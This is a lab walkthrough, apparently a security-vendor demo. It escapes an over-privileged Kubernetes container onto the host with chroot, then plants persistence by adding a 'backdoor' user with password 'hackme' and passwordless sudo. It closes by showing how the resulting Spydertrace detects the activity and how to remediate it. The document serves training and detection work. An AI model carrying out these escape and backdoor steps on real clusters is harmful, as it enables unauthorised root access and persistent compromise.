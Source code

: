 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
tmpfs on /host-system type tmpfs (rw,relatime,size=7318352k)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, which gives us all kinds of access. For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

If you installed the Falco integration, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
3d7d82e569d3a       About an hour ago   Ready               falco-8tg8k                                  falco               3                   (default)
6d3463aca3379       About an hour ago   Ready               falco-falcosidekick-6f7996c855-s48w6         falco               3                   (default)
b7897f1847274       About an hour ago   Ready               falco-falcosidekick-6f7996c855-nfnd7         falco               3                   (default)
...
```

Let's look at the containers that are named Falco:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE               CREATED             STATE               NAME                       ATTEMPT             POD ID              POD
0a86211354518       f26819a025370       About an hour ago   Running             falcoctl-artifact-follow   3                   3d7d82e569d3a       falco-8tg8k
a7e18aca478f0       5d7f6e3db4150       About an hour ago   Running             falco                      3                   3d7d82e569d3a       falco-8tg8k
1cc6683c7aee4       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   b7897f1847274       falco-falcosidekick-6f7996c855-nfnd7
2a6b72c464d75       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   6d3463aca3379       falco-falcosidekick-6f7996c855-s48w6
```

At this point, we could `exec` into one of these containers and investigate logs or API keys, but for now, let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```
```
New password: hackme
Bad password: too weak
Retype password: hackme
passwd: password for backdoor changed by root
```

Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
visudo
```

Move to the bottom of the file, press `o` to open a new line, then add the `backdoor` line like this:

```
root ALL=(ALL) ALL
%wheel ALL=(ALL) NOPASSWD: ALL
backdoor ALL=(ALL) NOPASSWD: ALL
```

Press Escape and type `:wq` to write and quit. Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we had access to the entire Kubernetes cluster on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

